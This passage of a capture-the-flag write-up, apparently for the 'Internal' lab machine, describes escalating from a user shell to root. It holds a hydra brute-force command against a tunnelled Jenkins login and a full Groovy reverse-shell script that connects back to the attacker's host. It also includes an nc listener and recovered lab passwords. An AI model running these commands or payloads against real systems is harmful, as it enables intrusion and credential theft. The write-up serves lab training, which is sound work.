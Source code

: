5. ``uname -a`` gives us kernal information: ``Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux``
6. lets wget and ./linpeas.sh on the machine to see what we missed...

```shell
Exploit: Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)
      URL: https://www.exploit-db.com/exploits/47167
     Path: /usr/share/exploitdb/exploits/linux/local/47167.sh
File Type: POSIX shell script, ASCII text executable
```

7. Can't seem to get that exploit to work - so going back to the "Internal Jenkins service is running on 172.17.0.2:8080". Some googling says that this is an internal Docker Service. INTERNAL! The name of the client this must be our way to root?
8. Because this is an internal IP we need to create an SSH tunnel a to access it from our remote machine. 
- ``ssh aubreanna@10.10.238.97 -N -f -L 2222:172.17.0.2:8080`` -N create non interactive -f request ssh to go to the background -L for local port forward
9. With the SSH tunnel setup we can access the Internal Jenkins at http://localhost:2222
10. build hydra to brute force?
11. ``hydra -t 16 -l admin -P /usr/share/seclists/Passwords/rockyou.txt localhost -s 2222 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"  ``
12. admin:spongebob
13. traveling to the script console we can abuse this to run commands on the internal jenkins system and get a reverse shell. 

```shell
String host="10.x.x.x";

int port=6666;

String cmd=”bash”;

Process p=new 
ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

14. ``nc -nvlp 6666`` on our kali machine and run the script in the console to get out shell.
15. checking around this machine and checking out /opt/ we can see a note for aubreanna with root ssh credentials. root:tr0ub13guM!@#123

##   Answer the questions below

**User.txt Flag**

![0xskar](/assets/internal04.png)

**Root.txt Flag**

![0xskar](/assets/internal05.png)

* * *



